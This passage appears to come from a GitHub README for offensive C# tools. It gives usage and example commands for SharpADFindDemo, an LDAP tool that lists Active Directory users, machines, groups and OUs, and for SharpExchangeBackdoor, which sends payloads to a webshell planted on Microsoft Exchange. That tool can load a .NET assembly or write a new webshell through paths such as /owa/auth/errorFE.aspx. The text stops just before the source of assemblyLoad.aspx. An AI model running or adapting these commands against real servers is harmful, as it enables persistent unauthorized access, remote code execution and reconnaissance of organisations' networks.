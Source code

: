 Usage:

```
      SharpADFindDemo <LDAP ServerIP> <user> <password> <command>
            
command:
- user
- machine
- group
- ou
- username
- machinename
- groupname
- ouname

```

Note:The maxsize is 1000.

Eg:

```
      SharpADFindDemo.exe 192.168.1.1 test1 password1 user
```


---

### SharpExchangeBackdoor.cs

Python Version: [SharpExchangeBackdoor.py](https://github.com/3gstudent/Homework-of-Python/blob/master/SharpExchangeBackdoor.py)

Use to send payload to the Exchange webshell backdoor.

Support:

- assemblyLoad
- webshellWrite

Usage:

```
    <url> <user> <password> <mode> <path>
mode:
    assemblyLoad
    webshellWrite
```

eg.

```
    SharpExchangeBackdoor.exe https://192.168.1.1/owa/auth/errorFE.aspx no auth assemblyLoad payload.dll
    SharpExchangeBackdoor.exe https://192.168.1.1/ecp/About.aspx user1 123456 webshellWrite payload.aspx
```

assemblyLoad.aspx:
